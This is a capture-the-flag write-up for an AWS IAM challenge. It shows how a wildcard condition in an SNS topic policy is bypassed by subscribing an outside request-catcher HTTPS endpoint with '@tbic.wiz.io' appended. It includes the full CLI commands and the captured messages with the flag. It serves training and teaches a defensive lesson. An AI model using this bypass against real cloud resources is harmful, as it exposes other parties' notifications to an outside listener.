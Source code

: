 # Challenge Number: 3

## Challenge Statement:
Enable Push Notifications
We got a message for you. Can you get it?
---

## IAM Policy:

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

---

## What do I have access to?

- I can subscribe to the SNS topic TBICWizPushNotifications if my email ends with @tbic.wiz.io

---

## What don't I have access to?

- I cannot initiate messages, or delete the topic. I also cannot subscribe with an email outside tbic.wiz.io
---

## What do I find interesting?

- The policy allows anyone to try subscribing, but only @tbic.wiz.io emails work. I’ve tried to access outside @tbic.wiz.io email but it will create an error.

---

## Solution:

To find the flag, I’ve taken the following steps:

a.	I have go through to the IAM Policy and research about "Action": "SNS:Subscribe". SNS stands for Simple Notification Service and it subscribes an endpoint to an SNS topic. Link to the reference AWS documentation is shown below.
-	https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/subscribe.html

b.	Based on the AWS CLI command syntax, the topic is given on the IAM Policy as “arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications” with an endpoint type as email.

c.	The initial command I’ve tried is to subscribe to the endpoint given the email protocol:
   ```
   aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol email \
    --notification-endpoint *@tbic.wiz.io
   ```

d.	However, the confirmation is pending. The output returned as:
```
"SubscriptionArn": "pending confirmation"
```

e.	The problem is how to confirm or even retrieve the email message. 

f.	After few hours, I’ve tried the endpoint as https and research further about it. An HTTP endpoint is a URL use to send or receive data. There are several HTTP endpoint online generator that I’ve tested such as Webhook, Beeceptor, and Request Catcher.

g.	In Request Catcher website, a URL can be generated online and will be used as endpoint. Copy the generated URL and use it to complete command as shown below. Note however that it is required to append the “@tbic.wiz.io” at the end of the generated URL.
```
aws sns subscribe \
    --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
    --protocol https \
    --notification-endpoint https://dexter.requestcatcher.com/test@tbic.wiz.io
```

h.	After running the command in AWS CLI, it will return a message to the generated URL in Request Catcher as follows:
```
{
  "Type" : "SubscriptionConfirmation",
  "MessageId" : "0855438a-4f7b-4277-964e-77f253823a15",
  "Token" : "2336412f37fb687f5d51e6e2425a8a587149894bade3909e4f0bd4f812f336dc88a54a52bf35c6e55212955d623580fe1481996aacb6cfc3c4a43372b0120def6fec43ed48fc3e9869992372b6364f4e5a953178a3936d05d4695463a33e91f9ed5611d207ff76922ec61f25774225589994db850d78f6da7b6d6a97780ac5dc",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "You have chosen to subscribe to the topic arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications.\nTo confirm the subscription, visit the SubscribeURL included in this message.",
  "SubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a587149894bade3909e4f0bd4f812f336dc88a54a52bf35c6e55212955d623580fe1481996aacb6cfc3c4a43372b0120def6fec43ed48fc3e9869992372b6364f4e5a953178a3936d05d4695463a33e91f9ed5611d207ff76922ec61f25774225589994db850d78f6da7b6d6a97780ac5dc",
  "Timestamp" : "2025-01-29T14:36:53.007Z",
  "SignatureVersion" : "1",
  "Signature" : "CygmjF+ayGAh5JlPRj6ft20aPXvwnWzGveKjTUzh4kurwkdty+bzO3+Yk4pdhTm1nz69q1n3oJX6nfa8uI3sqi2mQpGxz1ueNOOH3ZzN5DLBBdQ8+9pulTikacK3HRgIxvvtU0KZW9RFKIfnQEu8nrwKRyalRegm40XNvYJlAQy8H80LRtTKsDknF3S1k7sduIJwgQSmnpRXEFToyI2wpLFcqalqqS6yD48PLoNXpJhBNki2jJZNs2htwg9lEZDU9ckgivenq0kDwpgZUYDkOr+27vkY1XNJIb2W/at69e1GaIviwfROqzbQ26MyCje19N924iiSsr056eE4PVSvNA==",
  "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-9c6465fa7f48f5cacd23014631ec1136.pem"
}
```

i.	As per the message, visit the SubscribeURL to confirm the subscription.
```
https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a587149894bade3909e4f0bd4f812f336dc88a54a52bf35c6e55212955d623580fe1481996aacb6cfc3c4a43372b0120def6fec43ed48fc3e9869992372b6364f4e5a953178a3936d05d4695463a33e91f9ed5611d207ff76922ec61f25774225589994db850d78f6da7b6d6a97780ac5dc
```

j.	Open the SubscribeURL on another web browser. After few seconds, another message is displayed on the generated URL in Request Catcher. The message contains the flag.
   ```
   {
  "Type" : "Notification",
  "MessageId" : "3dc78ccd-9d71-5632-bac9-ecd9a2e1fb1e",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "{wiz:always-suspect-asterisks}",
  "Timestamp" : "2025-01-29T14:38:08.520Z",
  "SignatureVersion" : "1",
  "Signature" : "Ac1PUhmrR7SS0gL2bmMZOHZjSmRYAPYA2cU+RwYfLSadSsLj1005aj+jFU2R2f/H4sl+Mpl5MJZUekCLNG7X9ZEgEhbzDwRunQGVmrcio+sQ4YwmGodq69CdgfXiptIJhjSAY4k0q1h8USwu+8EwC3KYKLL9CmZzTun/M8Cn+IBb/PlS7Zyea33pEiwrDYYBSKZtwo67GZ044V/pCVazwoalokWHMzPphQU65CiCtus5MdKd/A28blLryGFm99WwfocLfNEv46olbwRba0U8Yvu2k0q0ecm1zRsXUcJzk9t4thVXXBQXf66IVLPqFwZUSP7/S64+AzvZ/FNjlszPjw==",
  "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-9c6465fa7f48f5cacd23014631ec1136.pem",
  "UnsubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:560856d0-f147-4b13-b4fd-b86370aab096"
}
   ```
---

## Reflection:

### What was your approach?
I read the IAM Policy and identified the service as Amazon Simple Notification Service (SNS). I’ve researched the command syntax regarding SNS Subscribe.

### What was the biggest challenge?
The biggest challenge is finding a solution using the email protocol which did not succeed.

### How did you overcome the challenges?
Based on the Amazon SNS:Subscribe documentation, the protocol can also be HTTP. I’ve go through this path and found several HTTP endpoint online generator. I’ve tested Webhook, Beeceptor, and Request Catcher. Request Catcher did the job successfully.

### What led to the breakthrough?
Although it also took some time, I realized that it is required to append @tbic.wiz.io into the endpoint.

### On the blue side, how can the learning be used to properly defend the important assets?
We should limit open access and always use conditions to restrict permissions to only trusted users.
